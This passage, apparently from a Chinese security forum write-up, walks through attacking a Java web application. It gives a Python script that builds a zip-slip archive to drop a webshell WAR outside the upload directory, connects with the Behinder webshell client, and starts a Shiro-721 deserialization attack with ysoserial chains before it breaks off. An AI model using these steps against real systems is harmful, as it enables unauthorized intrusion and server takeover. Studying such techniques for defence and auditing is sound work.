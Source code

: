 然后来到上传的地方

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-f3efc340a0c24b1fb9c7d993db42672df8827a7f.png)

先准备恶意的zip包

把一句话打包成war包

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-8f67fafdc0c8569143e7be41bc2b1f973a2f9a30.png)

然后把war包压缩 这里得用到脚本来

```php
import zipfile

file = zipfile.ZipFile('shell.zip','w',zipfile.ZIP_DEFLATED)

with open('test.war','rb') as f:
    data = f.read()

file.writestr('../../../test.war',data)
file.close()
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-c22774ec9e4f2d4a1536323a332d4f5806bf0014.png)

然后上传

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-380664bc1fd85ad84da9fe1397b81de5acd647a1.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-59bb8cc14b969b1fe4e438ee3f9282f8697155a7.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-c49ee62c73725fbdddcdca37b40cd36f7a228572.png)

冰蝎连接

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-492ab1996e859d1e9197afa48adb7ac1cd62c25b.png)

##### 第二处

在pom.xml中发现该系统用的shiro版本是1.3.2

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-cc0ea2f74563d5625915ae150813ed77c1b6bb65.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-25be1198144da446ee0b2de72e81446a067c7970.png)

符合shiro-721的条件 现在版本符合了 就需要寻找构造链了

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-c31308f5595708681f045596a000458d1142c124.png)

这是该系统的 和ysoserial的利用链的版本有些差异 但能不能用 先测试一下

要了一个payload

然后利用exp脚本 开始爆破
